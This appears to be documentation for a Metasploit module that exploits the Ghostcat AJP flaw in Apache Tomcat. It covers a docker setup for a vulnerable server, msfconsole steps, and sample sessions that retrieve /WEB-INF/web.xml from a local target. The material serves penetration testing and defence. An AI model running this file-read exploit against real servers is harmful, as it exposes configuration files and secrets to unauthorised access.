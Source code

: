 ## Vulnerable Application

### Description

This module can be used to retrieve arbitrary files from anywhere in the web application, including the `WEB-INF` and `META-INF`
directories and any other location that can be reached via ServletContext.getResourceAsStream() on Apache Tomcat servers.
It also allows the attacker to process any file in the web application as JSP.

### Setup

Running within a docker container:

```
docker run --name tomcat --rm -p 8080:8080 -p 8009:8009 tomcat:8.5.32
```

## Verification Steps

1. Install the application and start it
2. Start msfconsole
3. Do: `use auxiliary/admin/http/tomcat_ghostcat`
4. Do: `set RHOSTS [ip]`
5. Do: `set RPORT [port]`
6. Do: `set FILENAME [filename]`
7. Do: `run`

## Options

### FILENAME
The file you would like to retrieve from the target web application.

### AJP_PORT
The port on the target that is running the Apache JServ Protocol (AJP).

## Scenarios

### Apache Tomcat 8.5.32

```
msf6 > use auxiliary/admin/http/tomcat_ghostcat
msf6 auxiliary(admin/http/tomcat_ghostcat) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 auxiliary(admin/http/tomcat_ghostcat) > set RPORT 8080
RPORT => 8080
msf6 auxiliary(admin/http/tomcat_ghostcat) > set FILENAME /WEB-INF/web.xml
FILENAME => /WEB-INF/web.xml
msf6 auxiliary(admin/http/tomcat_ghostcat) > run
[*] Running module against 127.0.0.1
Status Code: 200
Accept-Ranges: bytes
ETag: W/"1227-1529524397000"
Last-Modified: Wed, 20 Jun 2018 19:53:17 GMT
Content-Type: application/xml
Content-Length: 1227
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_3_1.xsd"
  version="3.1"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to Tomcat
  </description>

</web-app>

[+] 127.0.0.1:8080 - /Users/user/.msf4/loot/20210408102538_default_127.0.0.1_WEBINFweb.xml_436040.txt
[*] Auxiliary module execution completed
```

### Apache Tomcat on Windows 10.0.16299.125

```
  [*] Processing tomcat_ghostcat.rb for ERB directives.
  resource (tomcat_ghostcat.rb)> use auxiliary/admin/http/tomcat_ghostcat
  resource (tomcat_ghostcat.rb)> set rport 8080
  rport => 8080
  resource (tomcat_ghostcat.rb)> set rhosts 127.0.0.1
  rhosts => 127.0.0.1
  resource (tomcat_ghostcat.rb)> set verbose true
  verbose => true
  resource (tomcat_ghostcat.rb)> set FILENAME /WEB-INF/web.xml
  filename => /WEB-INF/web.xml

  resource (tomcat_ghostcat.rb)> run
  [*] Running module against 127.0.0.1
  <?xml version="1.0" encoding="UTF-8"?>
<!--
    Copyright 2017 The MIT Internet Trust Consortium

    Portions copyright 2011-2013 The MITRE Corporation

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
-->

  <web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"

xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd">

version = "4.0"
metadata-complete="true">

<display-name> Welcome to Tomcat </display-name>
<description>
 Welcome to Tomcat
 </description>

 <web-app>
[*] Auxiliary module execution completed

```
